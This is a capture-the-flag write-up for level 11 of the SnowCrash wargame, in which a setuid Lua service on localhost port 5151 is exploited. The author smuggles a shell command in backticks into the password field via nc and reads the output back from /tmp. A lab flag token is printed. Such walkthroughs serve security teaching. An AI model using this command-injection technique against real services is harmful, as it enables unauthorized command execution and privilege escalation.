 ### Level11

We can see a script on the HOME, we can see that the suid/guid is active. This means that everything will be executed with flag11 permissions. After displaying the program we also know for sure that it is listening on port 5151 of the localhost.

`local server = assert(socket.bind("127.0.0.1", 5151))`

We also know that it won't display the output of a command for example because it takes our content, hashes it and compares it to a string:

```
local h = hash(l)
if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
	client:send("Erf nope..\n");
```

To begin, let's run the following command and look at the result:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo Hello World` > /tmp/output
Erf nope..
level11@SnowCrash:~$ cat /tmp/output
Hello World
```

The execution works fine and we can retrieve the contents. Now we just need to change the echo to getflag and we get :

`Check flag.here is your token: fa6v5ateaw21peobuub8ipe6s`
